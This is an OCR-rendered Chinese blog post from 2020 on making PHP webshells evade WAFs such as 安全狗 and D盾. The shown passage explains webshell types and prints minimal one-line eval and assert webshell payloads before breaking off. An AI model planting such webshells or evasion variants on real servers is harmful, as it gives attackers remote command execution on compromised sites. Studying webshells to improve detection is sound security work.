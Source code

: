 ```yaml
---
permalink: 2020/02/07/php-free-kill-webshell/
tags:
  - webshell
  - 免杀
layout: post
date: '2020-02-07 08:00:00'
categories:
  - web安全
  - bypass方法
home_cover: ''
title: 免杀webshell的一些研究
---
```


## 前⾔


webshell免杀已经是⼀个⽼⽣⻓谈的话题了，现在的各种waf都已经可以识别常⻅webshell及其各种变形，也出现了基于沙箱技术和机器学习的waf。webshell的免杀⼀直在⼀个对抗的过沉中，今天新出的⼀个免杀webshell，可能明天就加⼊了waf的规则库中，所以我们需要尽可能多的掌握webshell免杀技巧并且⾃⼰去写⼀些webshell。能够免杀的webshell尽可能的⼩范围使⽤，⼤量使⽤必然会被waf识别并加⼊查杀规则库。


## 前期准备


本次测试过程中使⽤了常⻅的两个免费waf：安全狗和D盾。综合测试的结果是D盾的免杀能⼒更强，所以能过D盾webshell基本都可以过安全狗。webshell即使可以逃过D盾的查杀，也⽆法进⾏系统的命令执⾏，因为D盾还有⼀层防⽕墙。如何绕过D盾防⽕墙和360等杀毒软件还需继续学习。


## webshell原理


根据功能的差别可以将webshell分为⼀句话⽊⻢，⼩⻢和⼤⻢。对于这些⻢的查杀原理基本是⼀样的，只不过代码  越多暴露的特性就会越多，⾃然就越容易被查杀。本次研究⼀句话⽊⻢的免杀，重点介绍⼀句话⽊⻢的原理。 ⼀句话⽊⻢是最简单的webshell，它的实现也相当容易，最简单的⼀句话⽊⻢如下：


```php
_@eval($REQUEST['x']);_

```


或者：


```php
_assert($REQUEST['x']);_

```


`assert`可以换成`system`等可以执⾏系统命令的PHP函数。


毫⽆疑问，这中简单原始的webshell肯定会被免杀：
